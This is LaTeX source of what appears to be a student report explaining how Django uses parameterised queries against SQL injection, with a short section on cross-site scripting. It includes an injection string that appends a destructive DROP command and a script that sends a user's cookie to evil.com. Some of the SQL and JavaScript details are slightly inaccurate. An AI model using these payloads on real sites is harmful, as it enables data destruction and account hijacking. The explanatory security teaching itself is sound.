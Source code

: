         Django prevents these forms of attacks mentioned by using the concept of {\slshape Prepared Statements}, or {\slshape Query Parameterisation}, which is an accepted way to prevent such attacks \cite{amirtahmasebi2009survey}. In a 'raw' SQL query, no distinction is made between SQL keywords, and strings. So a statement such below:
        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = 23\end{lstlisting}
        no distinction is made between the keywords such as SELECT and FROM, and a string, 23. If, therefore, a form on the website allowed a user to enter WebCustomerID, they can select all User Records related to that WebCustomerID, but they could also type something like `\'; DROP ALL DATABASES;--'. This would bne interpreted as follows:

        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = ''; DROP ALL DATABASES;--'\end{lstlisting}

        Clearly, this is a problem. Django's solution is to escape any string values in a syntax similar to the following:

        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = \%s', id\end{lstlisting}

        The id value is therefore treated as a string, and the database will know not to execute the statement.

        \paragraph{Cross Site Scripting (XSS)}
        This works by injecting code into the website that is later executed by an end user \cite{di2004identifying}. As an example, in a newspaper website, a user could post comments, but within the comment, they put something like the following in:
        \begin{lstlisting}[style=HTMLStyle]
<script>
    location.URL='http://www.evil.com/' + document.cookie
</script>\end{lstlisting}
        Instead of the browser treating the above text as HTML markup, it would execute it as JavaScript code, sending the user's cookie to a third party, and from there, the hacker could access their account on that website.

